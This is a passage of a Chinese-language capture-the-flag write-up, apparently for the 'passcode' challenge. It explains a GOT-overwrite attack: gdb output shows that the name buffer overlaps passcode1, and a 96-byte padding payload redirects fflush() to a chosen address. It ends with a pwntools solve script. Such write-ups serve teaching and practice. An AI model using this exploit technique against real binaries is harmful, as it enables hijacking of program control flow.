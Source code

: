 ```shell

```


fflush()位于0x0804a004

现在我们明确了攻击的方式，以数据0x80485e3覆写位于0x0804a004的fflush()函数的GOT表

之后要做的就是在栈中构造这些信息，不难发现welocome()和login()使用的是同一个EBP，如图： 

如下图，

```
0x08048609 in welcome ()
(gdb) i r ebp
ebp            0xfff678c8	0xfff678c8
```

```
0x08048564 in login ()
(gdb) i r ebp
ebp            0xfff678c8	0xfff678c8
```



name位于ebp-0x70

passcode1位于ebp-0x10： 


0x70 - 0x10 = 96,也就是说name这个字符串第96个字节后的4字节数据将会被作为passcode1的地址。

最终我们的payload为： 
"A" * 96 + p32(fflush_got) + str(0x80485e3) 
这里要注意0x80485e3要转换成十进制输入，因为scanf()以%d读取数据。

攻击后效果如图： 


解题脚本
```python
!/usr/bin/python 

from pwn import *

target = process('/home/passcode/passcode')

fflush_got = 0x0804a004

system_addr = 0x80485e3

payload = "A" * 96 + p32(fflush_got) + str(system_addr)

target.send(payload)

target.interactive()
```
